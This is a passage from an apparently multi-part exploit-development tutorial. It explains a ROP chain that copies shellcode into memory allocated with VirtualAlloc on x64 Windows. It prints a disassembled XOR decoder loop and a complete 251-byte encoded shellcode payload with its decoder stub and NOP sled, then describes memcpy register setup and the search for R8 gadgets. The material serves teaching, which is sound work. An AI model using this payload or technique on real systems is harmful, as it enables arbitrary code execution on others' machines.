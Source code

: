 ```nasm
0000000000E20021 | 3006                     | xor byte ptr ds:[rsi],al                   |  XOR 1 byte at a time
0000000000E20023 | 48:FFC6                  | inc rsi                                    |  Move to the next 8 bytes
0000000000E20026 | 48:FFC9                  | dec rcx                                    |  Decrement the remaining length by 8
0000000000E20029 | 75 F6                    | jne E20021                                 |  Repeat until RCX is zero
```

The `decoder stub` is this portion of our shellcode that I've highlighted below:

```python
"\x90\x90\x90\x90\x90\x90\x90\x90"
`"\x48\x31\xc9\x48\x8d\x35\xf8\xdd\xdd\xfd\x81\xc6\x22\x22\x22\x02\x48\x89\xf3\x48\x8d\x36\xb1\xcf\xb0\xac\x30\x06\x48\xff\xc6\x48\xff\xc9\x75\xf6"`
"\xe4\x2f\x40\x84\xe4\x2f\x48\x5c\xe4\x9d\x65\xc9\xe4\x27\xed\xcc\xe4\x27\xec\xb4\xe4\x27\xdc\xbc"
"\xe4\x27\x9a\xe4\x27\x9a\xe4\x27\xf2\x9c\xe5\x25\x74\x27\xf7\x90\xe0\xad\x6f\xe4\x9d\x65\xca\x2d"
"\x6d\x53\x24\xe4\x6d\x45\xa4\x27\xb8\xa7\xe0\xad\x6e\xe8\x27\xfe\xb8\xe1\x9d\x77\xe8\x27\xf6\x8c"
"\xe1\xad\x6f\xe0\x25\x7d\xe4\x14\xfb\xc5\xc2\xe9\xd4\xc9\xcf\x3c\xe4\x6d\x4c\xa4\xe4\x6d\x44\xa4"
"\xfc\xe4\x25\x4c\xe4\x2f\x68\xa4\xcb\x4f\xbb\x9d\x77\xed\x27\xf0\x27\xa8\xe0\xad\x6f\xe4\x53\x65"
"\xe0\x27\xa4\xe0\x95\xa7\xd8\xaf\xd9\x4a\x60\xfd\xed\xf3\xe0\x25\x55\xe1\x9d\x77\xe8\x27\xf6\x88"
"\xe1\xad\x6f\xe4\x53\x6d\xca\xe9\x27\x80\xe7\xe1\x9d\x77\xe8\x27\xf6\xb0\xe1\xad\x6f\xef\x27\xe8"
"\x07\xa8\xe0\xad\x6c\xfc\xed\xf3\xe4\x9d\x6c\xfc\xe4\x14\xcf\xcd\xc0\xcf\x82\xc9\xd4\xc9\xfc\xe4"
"\x25\x4d\xe4\x9d\x7e\xe4\x53\x6e\xe4\x2f\x40\x9c\xed\x53\x7b" #251 bytes
```

So, the decoder stub and encoded shellcode are included in our payload.  Now you see that there's more to this shellcode than meets the eye! haha

Okay, so now that you understand how the shellcode is put together, let's continue with collecting and employing our ROP gadgets to use memcpy and copy our shellcode to our allocated region of memory we previously allocated in Part 3 of this series.  Granted, we will be re-allocating again since we're actually using shellcode now instead of a bunch of 0x41's but you get the idea 😸  Part 3 was meant to serve in helping you learn how to execute `VirtualAlloc`.

***Memcpy***
-

> Here's how memcpy is laid out:

- Copies memory from src to dst
- On x64, the parameters for memcpy are passed in these registers:
   - rcx: Destination address (dst)
   - rdx: Source address (src)
   - r8: Number of bytes to copy (n)

***Setting the Memcpy - R8 Register***
-

Let's go ahead and get the worst register out of the way shall we?  😸  It's the worst because the `R8 register` just isn't used that much in our vulnerable binary.  So, finding ROP gadgets can be quite the challenge.  But, after longer than I'd like to admit, I found enough to make it happen.  Here's what it looks like:
